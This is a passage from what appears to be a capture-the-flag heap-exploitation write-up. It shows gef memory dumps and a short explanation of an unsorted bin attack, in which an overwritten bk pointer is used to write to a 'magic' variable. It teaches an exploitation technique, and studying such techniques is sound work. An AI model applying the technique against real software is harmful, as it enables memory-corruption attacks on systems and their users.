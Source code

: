 ```
0x1e231c0:  0x0 0x0
0x1e231d0:  0x0 0x0
0x1e231e0:  0x0 0x0
0x1e231f0:  0x0 0x0
0x1e23200:  0x100 0x40
0x1e23210:  0x3832373533393530  0x0
0x1e23220:  0x0 0x0
0x1e23230:  0x0 0x0
0x1e23240:  0x0 0x20dc1
0x1e23250:  0x0 0x0
0x1e23260:  0x0 0x0
0x1e23270:  0x0 0x0
0x1e23280:  0x0 0x0
0x1e23290:  0x0 0x0
0x1e232a0:  0x0 0x0
0x1e232b0:  0x0 0x0
0x1e232c0:  0x0 0x0
0x1e232d0:  0x0 0x0
0x1e232e0:  0x0 0x0
0x1e232f0:  0x0 0x0
0x1e23300:  0x0 0x0
0x1e23310:  0x0 0x0
gef➤  x/g 0x6020c0
0x6020c0 <magic>: 0x0
```

So we can see that the `bk` pointer has been overwritten to `0x6020b0`, and that the value of `magic` is `0x0`. Now we will allocate a `0xf0` byte chunk to remove this chunk from the unsorted bin and trigger the write:

```
gef➤  x/100g 0x1e23000
0x1e23000:  0x0 0x101
0x1e23010:  0x3030303030303030  0x3030303030303030
0x1e23020:  0x3030303030303030  0x3030303030303030
0x1e23030:  0x3030303030303030  0x3030303030303030
0x1e23040:  0x3030303030303030  0x3030303030303030
0x1e23050:  0x3030303030303030  0x3030303030303030
0x1e23060:  0x3030303030303030  0x3030303030303030
0x1e23070:  0x3030303030303030  0x3030303030303030
0x1e23080:  0x3030303030303030  0x3030303030303030
0x1e23090:  0x3030303030303030  0x3030303030303030
0x1e230a0:  0x3030303030303030  0x3030303030303030
0x1e230b0:  0x3030303030303030  0x3030303030303030
0x1e230c0:  0x3030303030303030  0x3030303030303030
0x1e230d0:  0x3030303030303030  0x3030303030303030
0x1e230e0:  0x3030303030303030  0x3030303030303030
0x1e230f0:  0x3030303030303030  0x3030303030303030
0x1e23100:  0x3030303030303030  0x101
0x1e23110:  0x3131313130303030  0x6020b0
0x1e23120:  0x0 0x0
0x1e23130:  0x0 0x0
0x1e23140:  0x0 0x0
0x1e23150:  0x0 0x0
0x1e23160:  0x0 0x0
0x1e23170:  0x0 0x0
0x1e23180:  0x0 0x0
0x1e23190:  0x0 0x0
0x1e231a0:  0x0 0x0
0x1e231b0:  0x0 0x0
0x1e231c0:  0x0 0x0
0x1e231d0:  0x0 0x0
0x1e231e0:  0x0 0x0
0x1e231f0:  0x0 0x0
```